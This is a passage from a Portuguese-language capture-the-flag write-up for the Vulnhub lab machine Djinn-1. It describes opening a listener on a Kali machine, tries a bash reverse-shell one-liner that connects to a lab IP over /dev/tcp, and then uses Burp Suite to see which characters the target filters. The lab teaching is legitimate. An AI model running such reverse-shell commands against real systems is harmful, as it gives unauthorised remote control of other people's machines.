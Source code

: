 

* Agora vamos deixar uma porta escutando na nossa maquina kali e enviar um "reverse shell" para conseguir um shell do alvo


* Tentamos enviar varios comandos de reverse shell mas parece que todos estao sendo filtrados. A aplicacao deve estar filtrando algum caractere...

```bash
bash -i >& /dev/tcp/192.168.150.110/443 0<&1
```

![](/assets/img/Vulnhub/Djinn-1/wrong-choice-of-words.png)



### Burp


* Vamos para o Burp Suite para analisar melhor o que esta acontecendo. Chegamos a conclusao que a aplicacao esta de fato filtrando alguns caracteres, um dele e o "/"
